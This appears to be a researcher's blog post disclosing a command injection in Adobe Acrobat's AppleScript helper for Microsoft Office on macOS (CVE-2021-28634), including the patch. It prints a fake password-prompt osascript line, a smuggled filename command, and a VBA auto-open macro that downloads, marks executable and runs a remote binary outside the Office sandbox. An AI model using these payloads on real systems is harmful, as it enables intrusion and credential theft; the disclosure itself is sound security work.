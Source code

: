```yaml
---
title: "Adobe Acrobat Command Injection (CVE-2021-28634)"
date: 2021-10-27T17:06:21-06:00
---
```


During a recent red team engagement I was looking into options for VB macro execution on MacOS. The enterprise system I was investigating had Adobe Acrobat installed along with Microsoft Office integrations basically adding an Adobe tab to Word and Excel to convert documents to PDF. 

On whim, I decided to take a look at how this might be working, and started poking around the file system. Turns out Adobe installs an AppleScript file to `~/Library/Application Scripts/com.microsoft.{Word,Excel,Powerpoint}/AcrobatUtils.scpt`. 

Briefly, an `scpt` file is a compiled AppleScript application. AppleScript is an IPC mechanism for MacOS and provides scripting control for aspects of the OS and applications. According to [Wikipedia](https://en.wikipedia.org/wiki/AppleScript)

>The term "AppleScript" may refer to the language itself, to an individual script written in the language, or, informally, to the macOS Open Scripting Architecture that underlies the language.

{{< figure src="/img/osa.jpg">}}
[Source](https://developer.apple.com/library/archive/documentation/LanguagesUtilities/Conceptual/MacAutomationScriptingGuide/HowMacScriptingWorks.html)

I'm sure there are legitimate uses for AppleScript but typically it's used to ask for a user's credentials.

```applescript
osascript -e 'display dialog "Your compromised Mac is requesting your password" with title "Just Trust Me" default answer "" with icon stop with hidden answer'
```

And if you have an AppleScript file, you can compile it to various formats with [osacompile](https://ss64.com/osx/osacompile.html): `osacompile -l AppleScript -d -o test.scpt test.applescript`

### Thanks Adobe

Anyways, this `AcrobatUtils.scpt` can be opened in the Script Editor or just by calling `open ~/Library/Application Scripts/com.microsoft.{Word,Excel,Powerpoint}/AcrobatUtils.scpt`.

And in the script editor we see the functions `OpenPDFFile` and `ConvertToPDF` both of which contain functions that pass a filepath into `do shell script`.

{{< figure src="/img/acrobatutils-old1.jpg">}}

I wondered if a filename of `file.pdf; open /System/Applications/Calculator.app` would do what I suspected. And it did.

{{< figure src="/img/calc.jpg">}}

How can we abuse this from the context of a VB Macro? According to the [Microsoft docs](https://docs.microsoft.com/en-us/office/vba/office-mac/applescripttask), the VB `AppleScriptTask` command "can execute an AppleScript script file located outside the sandboxed app ... The MyAppleScript.applescript file must be in `~/Library/Application Scripts/[bundle id]/`." And the Adobe script is there for our taking.

We can do something trivial like call the `OpenPDFFile` function within the specified `AcrobatUtils.scpt` file and curl, chmod, and execute. And we'll see that we're outside of the Microsoft sandbox, although still subject to the MacOS Privacy Controls, [TCC](https://cedowens.medium.com/initial-access-checks-on-macos-531dd2d0cee6).

```vb
Sub Document_Open()
    Dim x As String
    x = AppleScriptTask("AcrobatUtils.scpt", "OpenPDFFile", "file.pdf; curl -o /tmp/malicious https://example.com/malicious.bin; chmod +x /tmp/malicious; nohup /bin/bash -c /tmp/malicious &> /dev/null & ")
End Sub
```
Typically, using the VBA [Shell](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function) function should restrict us to the Microsoft sandbox and require another escape. Previous research by [Adam Chester](https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/) discusses the sandbox restricting access to system resources even if you gain command and control from macro execution. Using Adobe's vulnerable AcrobatUtils functions avoids this.


### It's Patched
After reporting to Adobe via their bug bounty program on HackerOne, and waiting five months, Adobe responded stating the issue had been fixed and [CVE-2021-28634](https://helpx.adobe.com/security/products/acrobat/apsb21-51.html) had been issued.

After updating and looking at the new file we see they used Apple Script's `quoted form of filePath` to escape the input to the `do shell script`. 

{{< figure src="/img/acrobatutils-patched.png">}}

According to Apple's developer [documentation](https://developer.apple.com/library/archive/documentation/LanguagesUtilities/Conceptual/MacAutomationScriptingGuide/CallCommandLineUtilities.html), quoted form should safely escape user provided input.
> The easiest way to quote a string is to use the quoted form property of the text class … This property returns the string in a form that’s safe from further interpretation by the shell, regardless of its contents.

Surprised to see Adobe suffering from a basic command injection vuln like this even if it is a little obscure. Update your Adobe Acrobats!
